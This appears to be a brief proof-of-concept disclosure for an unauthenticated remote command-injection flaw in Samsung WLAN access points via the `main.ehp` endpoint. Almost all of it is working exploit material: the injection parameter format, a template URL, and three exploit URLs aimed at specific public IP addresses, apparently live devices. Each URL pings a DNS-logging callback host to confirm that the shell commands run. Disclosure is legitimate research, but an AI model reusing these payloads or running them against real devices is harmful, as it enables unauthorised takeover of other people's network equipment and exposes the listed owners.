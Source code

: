 Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.

`main.ehp` exists for remote command execution.

For example, execute the `ping` command through the `shell`.

Command format:`&command1=shell:ping+dnslog`

Execute commands directly through the browser without logging into the device.

xxx/main.ehp?cate=test&path=users&command1=shell:ping+dnslog

The following examples verify the existence of the vulnerability：

`http://220.92.38.104/main.ehp?cate=test&path=users&command1=shell:ping+ad1f15a7.dns.1433.eu.org`

![](1.png)
`http://112.170.189.230/main.ehp?cate=test&path=users&command1=shell:ping+05c1e934.dns.1433.eu.org`

![](2.png)
`http://121.174.124.33/main.ehp?cate=test&path=users&command1=shell:ping+78d29a40.dns.1433.eu.org`

![](3.png)
